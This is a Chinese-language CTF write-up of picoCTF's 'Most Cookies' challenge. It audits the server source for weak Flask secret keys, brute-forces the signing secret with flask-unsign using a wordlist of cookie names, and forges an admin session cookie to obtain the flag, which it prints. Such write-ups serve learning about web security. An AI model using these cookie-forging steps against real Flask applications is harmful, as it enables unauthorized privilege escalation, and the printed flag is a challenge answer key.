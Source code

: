 ```yaml
---
icon: pen-to-square
date: 2024-12-20
tags: 
title: Most Cookies
category:
  - 领域
---
```

# Most cookies
Author: madStacks
#### Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)

#### Hints 
How secure is a flask cookie?

----
# 前言
## Flask
flask是Python编写的轻量级web应用框架
### Flask会话管理机制
flask框架下的cookie是这样的结构
```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z2Uskg.uziKYJ0zcZE4j4toa_S8dqE_auA
```
但是不重要，base64解码后可以看到我们的信息
```
{"very_auth":"blank"}ge,3&	S7x6qZj`
```
### 通过查资料发现
Flask框架加密cookie用的是签名机制而非加密机制
**这意味着，我们可以查看cookie的序列化内容，只是不能随意更改**
*因为在服务端的Flask框架中进行签名*
通过研究，Flask在服务端设置签名密钥是设置一个secret_key，用于加密和解密cookie的会话数据
示例：
```
from flask import Flask

app = Flask(__name__)
app.secret_key = 'your_secret_key'  # 设置密钥
```
*现在我们有思路了，我们只需要从python源代码获取secret，然后自己构造cookie就可以进行越权操作*
## Flask-unsign
[Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign)是一个专门用于爆破Flask框架加密cookie的工具，我们可以通过这个来爆出密码（一般需要提供字典），构造cookie。

# 解题过程
## 代码审计
首先对server.py文件进行代码审计，主要是secret_key的定义部分
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220173823.png)
发现了逻辑是从这些明文里进行随机选择作为密钥（实际上经过测试发现，其实并不随机后面再说）
## cookie构造
随后安装flask-unsign工具，
创建一个cookie.txt来存放密钥，内容为python代码中的cookie_name
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```

### 构造命令：
```
 flask-unsign -u --server http://mercury.picoctf.net:65344/ --wordlist cookie.txt
```
- -u：用爆破签名秘钥
- --server：指定提供cookie的服务器，也就是flask服务器
- --wordlist：指定字典
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220174905.png)
发现密钥为fortun(无论重复多少次，密钥都为fortun,不知道是不是我的原因)

### 构造cookie
```
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'fortune'
```
- --sign:构造cookie的指令，使用时需要指定secret
- --cookie：构造的有效载荷upload明文
- --secret：签名密钥
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220175603.png)
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z2U-0A.6uixHBNxbx7P6ZHeo-_dGFZjhd0
```

随后在网站的cookie进行更改，刷新后可得到flag
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220175742.png)
*在这步尝试过使用其他密钥，但是都不能得到flag，真的很奇怪*

```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```


